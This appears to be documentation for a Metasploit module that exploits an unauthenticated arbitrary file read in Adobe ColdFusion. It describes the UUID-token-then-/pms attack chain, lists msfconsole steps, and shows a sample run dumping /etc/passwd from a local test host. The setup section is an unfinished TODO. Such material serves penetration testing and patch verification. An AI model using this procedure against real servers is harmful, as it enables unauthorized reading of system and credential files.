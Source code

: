 ## Vulnerable Application
This module exploits an Improper Access Vulnerability in Adobe Coldfusion versions prior to version
'2023 Update 6' and '2021 Update 12'. The vulnerability allows unauthenticated attackers to request authentication
token in the form of a UUID from the /CFIDE/adminapi/_servermanager/servermanager.cfc endpoint. Using that
UUID attackers can hit the /pms endpoint in order to exploit the Arbitrary File Read Vulnerability.

### Setup

#TODO: Find out how to setup a vulnerable target and put those details here.

## Verification Steps

1. Start msfconsole
1. Do: `use coldfusion_pms_servlet_file_read`
1. Set the `RHOST` and datastore option
1. If the target host is running Windows, change the default `FILE_PATH` datastore options from `/tmp/passwd` to a file path that exists on Windows.
1. Run the module
1. Receive the contents of the `FILE_PATH` file 

## Scenarios
### ColdFusion Version 2023.0.0.330468 running on Linux

```
msf auxiliary(gather/coldfusion_pms_servlet_file_read) > run
[*] Reloading module...
[*] Running module against 127.0.0.1

[*] Attempting to retrieve UUID ...
[+] UUID found: 1c49c29a-f1c0-4ed0-9f9e-215f434c8a12
[*] Attempting to exploit directory traversal to read /etc/passwd
[+] File content:
n00tmeg:x:1000:1000:n00tmeg,,,:/home/n00tmeg:/bin/bash
hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false
pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
whoopsie:x:117:124::/nonexistent:/bin/false
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tcpdump:x:109:117::/nonexistent:/usr/sbin/nologin
uuidd:x:107:115::/run/uuidd:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

[+] Results saved to: /Users/jheysel/.msf4/loot/20240403192500_default_127.0.0.1_coldfusion.file_475871.txt
[*] Auxiliary module execution completed
```
